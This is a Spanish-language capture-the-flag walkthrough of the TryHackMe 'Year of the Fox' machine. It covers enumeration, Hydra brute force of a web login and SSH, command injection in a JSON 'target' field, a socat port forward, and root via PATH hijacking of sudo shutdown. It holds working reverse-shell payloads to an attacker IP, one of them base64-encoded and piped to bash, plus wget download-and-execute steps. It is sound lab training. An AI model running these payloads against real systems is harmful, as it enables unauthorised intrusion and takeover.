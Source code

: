 # Year of the Fox

**Platform:** TryHackMe  
**Difficulty:** Hard  
**IP:** 10.10.39.77

---

## Información Inicial
- **Objetivo:** Obtener las tres banderas del usuario web, usuario del sistema y root.
- **Herramientas iniciales:** `Nmap`, `enum4linux`, `Hydra`, `Command Injection`, `Netcat`, `linpeas.sh`, `SSH`,`strings`, `Burpsuite`.

---

Primero realizamos un escaneo básico con `nmap` para identificar los puertos abiertos y servicios activos:
```bash 
nmap -sC -sV -p- --min-rate 3000 10.10.39.77
```
!["Ejecución de nmap para obtener los puertos abiertos y los servicios activos](screenshots/1.nmap.png)

En este encontramos un servicio Apache corriendo en el puerto 80 y Samba en sus puertos 139 y 445.

Vamos a empezar explorando el primero desde el navegador web, donde nos muestra un inicio de sesión para el que no tenemos credenciales.

Podríamos realizar una fuerza bruta, pero mejor exploraremos Samba por si tuviera algún fichero o usuario para acceder.


!["Sitio web Apache con inicio de sesión"](screenshots/2.web_server.png)

Para enumerar el servicio Samba vamos a utilizar la herramienta enum4linux, la cuál nos devuelve dos usuarios (`fox` y `rascal`) y una ruta a la que supuestamente solo podemos acceder con el primer usuario.

```bash 
enum4linux -a  10.10.39.77
```

![Ejecución de enum4linux para la búsqueda de vulnerabilidades en Samba](screenshots/3.enum4linux_1.png)

!["Usuarios encontrados con la herramienta enum4linux"](screenshots/4.enum4linux_users.png)

Igualmente, vamos a realizar una fuerza bruta con los dos usuarios al inicio de sesión del sitio web utilizando el diccionario rockyou.txt.

```bash 
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.49.139 http-get /

hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.49.139 http-get /
```
Por suerte, el ataque es efectivo con el segundo usuario y obtenemos su contraseña.

!["Ataque de fuerza bruta con Hydra para el usuario rascal en el sitio web"](screenshots/5.hydra.png)

Con las credenciales obtenidas entramos al sitio web, que trata de una búsqueda en el sistema a través del ingreso de rutas.
Si escribimos un punto para listar los ficheros actuales nos devuelve el nombre de tres de ellos.

!["Pruebas de entrada en el sitio web que lista ficheros si ingresamos la ruta"](screenshots/6.web_site.png)

Capturamos la sesión con Burpsuite y hacemos pruebas para intentar inyectar código, pero al escribir el carácter '/' lo bloquea. Sin embargo, el carácter '\' sí que lo da por válido pero tras muchas pruebas no conseguimos nada. 

!["Captura de la sesión con Burpsuite y prueba de caracteres válidos."](screenshots/7.permitted_bar.png)

Otra prueba era realizar una reverse shell a partir del contenido del atributo, de manera que después de responder al target con "\" pondríamos un ';' y escribiríamos un comando para solicitar la shell a nuestro Netcat.

```bash
"target":"\";bash -i >& /dev/tcp/10.8.29.132/4444 0>&1
```

> En la captura se ve la dirección IP incorrecta, pero corregida tampoco devolvía nada. 

!["Intento de inyecció de comandos después del atributo target (entrada del sitio web)"](screenshots/8.tryng_bash.png)

Esta prueba no daba ningún problema pero tampoco recibíamos ninguna shell, de manera que se podría tratar de codificar el comando en base64. Lo único es que se debería de acompañar de los comandos pertinentes para descifrar el comando una vez fuera a ser ejecutado, para que el sitio web lo aceptara pero que una vez dentro se pueda ejecutar.

Reverse-shell utilizada: `sh -i >& /dev/tcp/10.8.29.132/4444 0>&1`

Código inyectado:
```bash
"target":"\";echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuOC4yOS4xMzIvNDQ0NCAwPiYx|base64 -d |bash\n"
```

![Inyección de código final para establecer la reverse-shell](screenshots/9.good_request.png)

Y finalmente recibimos la conexión en nuestro Netcat. Entramos como www-data y procedemos a analizar el sistema.

![Establecimiento de shell desde Netcat en el puerto 4444](screenshots/10.netcat.png)

Vamos a abrir un servidor Python en nuestra máquina y a descargarnos la herramienta linpeas.sh desde la máquina víctima para poder realizar un análisis más detallado.

Máquina local:
```bash
python -m http.server
```

Máquina víctima:
```bash
cd /tmp

wget http://10.8.29.132:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
```

![Ejecución de linpeas.sh para análisis del sistema](screenshots/12.linpeas_1.png)

Entre las rutas destacadas que nos muestra, vemos un fichero dentro de /var/www llamado `web-flag.txt` por lo que lo listamos y encontramos la primera bandera.

![Primera bandera encontrada en la ruta del servicio web](screenshots/11.first_flag.png)

La herramienta linpeas.sh también nos desvela algo sobre los puertos activos, y es que tenemos SSH corriendo en local en el puerto 22.

Suponemos que aquí entrará en juego el usuario `fox`, pero antes tenemos que exponer el servicio para poder acceder desde nuestra máquina local.

![Resultado de linpeas.sh que muestra el servicio SSH corriendo en local (127.0.0.1)](screenshots/13.localhost_ssh.png)

La herramienta más conocida para exponer el servicio de la máquina víctima es `socat`. Descargaremos el fichero de la herramienta en nuestra máquina local y al igual que antes, la descargaremos desde la víctima.

Al ejecutarlo, estaremos abriendo el puerto de la máquina 1212 y redirigiendo el servicio del puerto 22 por este.

```bash
wget http://10.8.29.132:8000/socat

chmod +x socat

./socat TCP-LISTEN:1212,reuseaddr,fork tcp:127.0.0.1:22
```

![Utilización de socat para exponer el puerto 22 por el puerto 1212](screenshots/14.listening_socat.png)

En este punto, podemos enumerar el puerto 1212 de la máquina víctima por lo que ya podemos realizar un ataque de fuerza bruta a SSH con el usuario `fox` y el diccionario rockyou.txt.

```bash
hydra -l fox -P /usr/share/wordlists/rockyou.txt 10.10.39.77 -s 1212 ssh
```

![Fuerza bruta al servicio SSH con el usuario fox](screenshots/15.ssh.png)

Accederemos a SSH con las credenciales. La bandera del usuario se encuentra en el directorio personal del usuario actual.

```bash
cat user-flag.txt
```

Si miramos los permisos con el comando `sudo -l` encontramos un fichero en /usr/sbin/shutdown.

![Acceso a SSH con credenciales obtenidas y revisión de permisos](screenshots/16.sudo-l.png)

Descargaremos el fichero shutdown en la máquina local para analizarlo con strings. En su contenido destaca `poweroff`.

```bash
scp -P 1212 fox@10.10.49.139:/usr/sbin/shutdown .
```

![Descarga del fichero shutdown y uso de Strings para comprobar su contenido](screenshots/17.strings.png)

Buscando en el sistema de la máquina víctima, encontramos que se trata de un fichero que se encarga de apagar el sistema.
Sin embargo, si volvemos a mirar el resultado de `sudo -l` y lo comparamos con el resultado en nuestro equipo, falta una variable `secure_path` que contiene las rutas absolutas del PATH. 

Para realizar esto, crearemos un fichero en el directorio personal del usuario cuyo contenido será invocar una Bash como root, modificaremos el PATH para que apunte hacia nuestra ubicación y luego ejecutaremos el fichero shutdown.

```bash
echo "/bin/bash" > poweroff

chmod +x poweroff

export PATH=$(pwd):$PATH

sudo shutdown
```

![Escala de privilegios para convertirnos a usuario root por medio de vulnerabilidad en PATH](screenshots/18.escala.png)

Por último, en el directorio del usuario root nos dice que utilicemos `find` para encontrar la tercera bandera, de manera que usaremos el siguiente comando para buscar ficheros que contengan la palabra "root".

```bash
find / -type f 2>/dev/null | grep -i 'root'
```

En el directorio del usuario rascal hayamos un fichero (el último fichero que encuentra find) y dentro del mismo hayamos la tercera bandera, la de administrador.

![Bandera de administrador hayada en el fichero del directorio personal de rascal](screenshots/19.root.txt.png)



